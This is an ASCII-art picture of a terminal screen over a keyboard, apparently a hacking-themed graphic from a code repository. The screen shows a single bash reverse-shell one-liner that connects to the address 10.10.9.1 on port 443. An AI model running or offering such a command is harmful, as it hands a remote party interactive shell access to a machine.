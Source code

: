 
    *************************************************************************
    * $ bash -i >& /dev/tcp/10.10.9.1/443 0>&1                              *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *   
    *                                                                       *
    *                                                                       *
    *************************************************************************
      ESC   F1 F2 F3 F4 F5 F6 F7 F8 F9 F10 F11 F12 PRT SCR  BRK
      ~       1 2 3 4 5 6 7 8 9 0 - =    BCKSP     INS HOME PGUP       -------
      TAB      q w e r t y u i o p { }    \|/      DEL END  PGDN       |  |  |
      CAPS     a s d f g h j k l : "     ENTER                         |     |
      SHIFT     z x c v b n m , . /      SHIFT          |              |_____|
      CTRL WIN  ALT   S_P_A_C_E ALT   FN WIN CTRL    <- _ ->
